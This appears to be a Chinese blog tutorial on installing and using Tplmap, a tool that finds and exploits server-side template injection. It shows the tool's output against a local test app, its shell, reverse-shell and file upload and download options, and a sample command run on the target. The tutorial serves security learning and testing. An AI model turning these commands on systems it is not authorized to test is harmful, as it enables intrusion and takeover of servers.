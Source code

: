 # Tplmap使用教程

Tplmap是一个python工具，可以通过使用沙箱转义技术找到代码注入和服务器端模板注入（SSTI）漏洞。该工具能够在许多模板引擎中利用SSTI来访问目标文件或操作系统。一些受支持的模板引擎包括PHP（代码评估），Ruby（代码评估），JaveScript（代码评估），Python（代码评估），ERB，Jinja2和Tornado。该工具可以执行对这些模板引擎的盲注入，并具有执行远程命令的能力。  

## 安装

Tplmap运行需要python2的环境，使用python3会报错

- 获取源码：

```
git clone https://github.com/epinna/tplmap
```

![image-20210427093755854](https://raw.githubusercontent.com/JOHN-FROD/PicGo/main/blog-img/image-20210427093755854.png)

- 安装模组

在Tplmap目录下有一个名为`requirements.txt`的文本文件，写了需要的库，内容如下：

```
PyYAML==5.1.2certifi==2018.10.15chardet==3.0.4idna==2.8requests==2.22.0urllib3==1.24.1wsgiref==0.1.2
```

直接用`pip`安装指定的库

```
pip install -r requirements.txt
```

这样就安装完成了

## 用法

```
$ python tplmap.py -u 'http://127.0.0.1:5000/?name=1' [+] Tplmap 0.5    Automatic Server-Side Template Injection Detection and Exploitation Tool [+] Testing if GET parameter 'name' is injectable[+] Smarty plugin is testing rendering with tag '*'[+] Smarty plugin is testing blind injection[+] Mako plugin is testing rendering with tag '${*}'[+] Mako plugin is testing blind injection[+] Python plugin is testing rendering with tag 'str(*)'[+] Python plugin is testing blind injection[+] Tornado plugin is testing rendering with tag '{{*}}'[+] Tornado plugin is testing blind injection[+] Jinja2 plugin is testing rendering with tag '{{*}}'[+] Jinja2 plugin has confirmed injection with tag '{{*}}'[+] Tplmap identified the following injection point:   GET parameter: name  Engine: Jinja2  Injection: {{*}}  Context: text  OS: posix-linux  Technique: render  Capabilities:    Shell command execution: ok   Bind and reverse shell: ok   File write: ok   File read: ok   Code evaluation: ok, python code [+] Rerun tplmap providing one of the following options:     --os-shell                Run shell on the target    --os-cmd                Execute shell commands    --bind-shell PORT            Connect to a shell bind to a target port    --reverse-shell HOST PORT    Send a shell back to the attacker's port    --upload LOCAL REMOTE    Upload files to the server    --download REMOTE LOCAL    Download remote files
```

### 选项

```
Usage: python tplmap.py [options] 选项:  -h, --help          显示帮助并退出 目标:  -u URL, --url=URL   目标 URL  -X REQUEST, --re..  强制使用给定的HTTP方法 (e.g. PUT) 请求:  -d DATA, --data=..  通过POST发送的数据字符串 它必须作为查询字符串: param1=value1&param2=value2  -H HEADERS, --he..  附加标头 (e.g. 'Header1: Value1') 多次使用以添加新的标头  -c COOKIES, --co..  Cookies (e.g. 'Field1=Value1') 多次使用以添加新的Cookie  -A USER_AGENT, -..  HTTP User-Agent 标头的值  --proxy=PROXY       使用代理连接到目标URL 检测:  --level=LEVEL       要执行的代码上下文转义级别 (1-5, Default: 1)  -e ENGINE, --eng..  强制将后端模板引擎设置为此值  -t TECHNIQUE, --..  技术 R:渲染 T:基于时间的盲注 Default: RT 操作系统访问:  --os-cmd=OS_CMD     执行操作系统命令  --os-shell          提示交互式操作系统Shell  --upload=UPLOAD     上传本地文件到远程主机  --force-overwrite   上传时强制覆盖文件  --download=DOWNL..  下载远程文件到本地主机  --bind-shell=BIN..  在目标的TCP端口上生成系统Shell并连接到它  --reverse-shell=..  运行系统Shell并反向连接到本地主机端口 模板检查:  --tpl-shell         在模板引擎上提示交互式Shell  --tpl-code=TPL_C..  在模板引擎中注入代码 常规:  --force-level=FO..  强制将测试级别设置为此值  --injection-tag=..  使用字符串作为注入标签 (default '*')
```

通常使用`--os-shell`来反弹shell来控制靶机

```
[+] Run commands on the operating system.posix-linux $ whoamijohn
```